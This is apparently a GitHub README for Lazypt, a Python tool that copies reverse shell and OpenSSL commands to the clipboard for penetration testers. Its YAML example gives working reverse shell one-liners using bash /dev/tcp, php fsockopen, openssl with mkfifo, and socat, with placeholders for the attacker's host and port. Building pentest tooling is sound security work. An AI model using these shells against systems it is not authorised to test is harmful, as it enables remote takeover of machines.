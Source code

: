 # Lazypt v0.1

Lazypt is a simple Python program that pastes to your clipboard some common penetration testing commands.

## Features

- Reverse shell cheatsheet
- Openssl certificates conversion/generation cheatsheet

### Reverse shell cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- py
- pl
- sh
- php
- rb
- awk
- openssl
- socat

### YAML example

```yaml
---
- sh:
    code: bash -i >& /dev/tcp/{}/{} 0>&1
- php:
    code: php -r '$sock=fsockopen("{}",{});exec("/bin/sh -i <&3 >&3 2>&3");'
- openssl:
    code: |-
       Attacker> ncat --ssl -vv -l -p {}
       Target> mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect {}:{} > /tmp/s; rm /tmp/s
- socat:
    code: |-
      Attacker> socat file:`tty`,raw,echo=0 tcp-listen:{}
      Target> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{}:{}
      Socat binary> wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

place {} where you want to put LHOST and LPORT passed to the program as args.


### OpenSSL cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- Generate a Private Key and a CSR
- Generate a CSR from an Existing Private Key 
- Generate a CSR from an Existing Certificate and Private Key
- Generate a Self-Signed Certificate
- Generate a Self-Signed Certificate from an Existing Private Key
- Generate a Self-Signed Certificate from an Existing Private Key and CSR
- Convert PEM to DER
- Convert DER to PEM
- Convert PEM to PKCS7
- Convert PKCS7 to PEM  
- Convert PEM to PKCS12
- Convert PKCS12 to PEM
    
## Dependencies
- click
- pyperclip
- pyYAML

## Installation

```bash
git clone https://
cd lazypt
python setup.py install
```

## Usage

```bash
Usage: lazypt rsh [OPTIONS] LHOST LPORT [py|pl|sh|php|rb|awk|openssl|socat]

  Copy the chosen reverse shell code to the clipboard. It allows to switch
  the scripting language. (Does not run the commands)

Options:
  --help  Show this message and exit.
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.


## License
[MIT](https://choosealicense.com/licenses/mit/)
